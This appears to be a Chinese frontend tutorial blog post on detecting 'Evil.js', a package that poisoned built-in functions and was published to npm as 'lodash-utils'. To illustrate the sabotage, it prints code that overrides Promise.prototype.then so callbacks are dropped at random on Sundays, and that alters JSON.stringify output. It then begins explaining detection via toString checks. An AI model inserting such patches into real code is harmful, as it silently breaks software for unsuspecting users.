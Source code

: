 # 原型链污染 Evil.js 怎么检测

[视频移步B站](https://www.bilibili.com/video/BV1fe4y1o7kV)

<iframe src="//player.bilibili.com/player.html?aid=557362104&bvid=BV1fe4y1o7kV&cid=811637597&page=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

最近`Evil.js`被讨论的很多，项目介绍如下
![](https://cdn.jsdelivr.net/gh/course-dasheng/fullstack/docs/public/2022-08-22-16-17-24.png)

项目被发布到npm上后，引起了激烈的讨论，最终因为安全问题被npm官方移除，代码也闭源了

作为一个前端老司机，我肯定是反对这种行为，泄私愤有很多种方式，代码里下毒会被git log查到，万一违法了，还不如离职的时候给老板一个大逼兜来的解恨

今天我们来讨论一下，如果你作为项目的负责人，如何甄别这种代码下毒

[欢迎加入前端学习](https://shengxinjing.cn/support.html)，一起上王者,交个朋友

## 下毒手法

最朴实无华的下毒手法就是直接替换函数，比如evil.js中，给JSON.stringify下毒了，把里面的I换成了l ，每周日prmise的then方法有10%的概率不触发，只有周日能触发着实有点损了, 并且npm的报名就叫`lodash-utils`，看起来确实是个正经库，结果被下毒


```js
function isEvilTime(){
  return new Date().getDay() === 0 && Math.random() < 0.1 
}
const _then = Promise.prototype.then
Promise.prototype.then = function then(...args) {
  if (isEvilTime()) {
    return
  } else {
    _then.call(this, ...args)
  }
}

const _stringify = JSON.stringify
JSON.stringify = function stringify(...args) {
  return _stringify(...args).replace(/I/g, 'l') 
}
console.log(JSON.stringify({name:'Ill'})) // {"name":"lll"}


```

## 检测函数toString

检测函数是否被原型链投毒，我首先想到的方法就是检测代码的toString，默认的这些全局方法都是内置的，我们在命令行里执行一下

![](https://cdn.jsdelivr.net/gh/course-dasheng/fullstack/docs/public/2022-08-22-16-17-49.png)

我们可以简单粗暴的检查函数的toString
